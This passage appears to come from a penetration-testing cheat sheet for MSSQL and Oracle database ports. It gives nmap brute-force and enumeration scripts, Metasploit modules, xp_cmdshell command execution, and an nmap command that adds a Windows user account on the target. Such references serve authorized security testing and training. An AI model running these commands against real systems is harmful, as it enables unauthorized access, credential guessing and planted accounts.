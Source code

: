 ## Port 1433 - MsSQL
Default port for Microsoft SQL.
```mssql
sqsh -S 192.168.1.101 -U sa
```

[Enumeration Commands](http://www.lifeoverpentest.com/2018/02/enumeration-cheat-sheet-for-windows.html)
```
nmap -n -v -sV -Pn -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt 192.168.1.10
nmap -n -v -sV -Pn -p 1433 --script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password  192.168.1.10
nmap -n -v -sV -Pn -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=SQL_USER,mssql.password=SQL_PASS,ms-sql-xp-cmdshell.cmd="net user lifeoverpentest MySecretPassword123 /add" 192.168.1.10
sqsh -S 192.168.1.10 -U sa
```

### Execute Commands
```exec
# To execute the date command to the following after logging in
xp_cmdshell 'date'
go
```

Many of the scanning modules in metasploit requires authentication. But some do not.
```aux
use auxiliary/scanner/mssql/mssql_ping
```

### Brute force
```bf
scanner/mssql/mssql_login
```
If you have credentials look in metasploit for other modules.

## Port 1521 - Oracle database
* Enumeration
```enum
tnscmd10g version -h 192.168.1.101
tnscmd10g status -h 192.168.1.101
```
* Brute force the ISD
```isd
auxiliary/scanner/oracle/sid_brute
```
* Connect to the datbaase with sqlplus
* [Reference](http://www.red-database-security.com/wp/itu2007.pdf)
* [Enumeration Commands](http://www.lifeoverpentest.com/2018/02/enumeration-cheat-sheet-for-windows.html)
```
nmap -n -v -sV -Pn -p 1521 --script=oracle-enum-users --script-args sid=ORCL,userdb=users.txt 192.168.1.10
nmap -n -v -sV -Pn -p 1521 --script=oracle-sid-brute 192.168.1.10
tnscmd10g version -h 192.168.1.10
tnscmd10g status -h 192.168.1.10
```
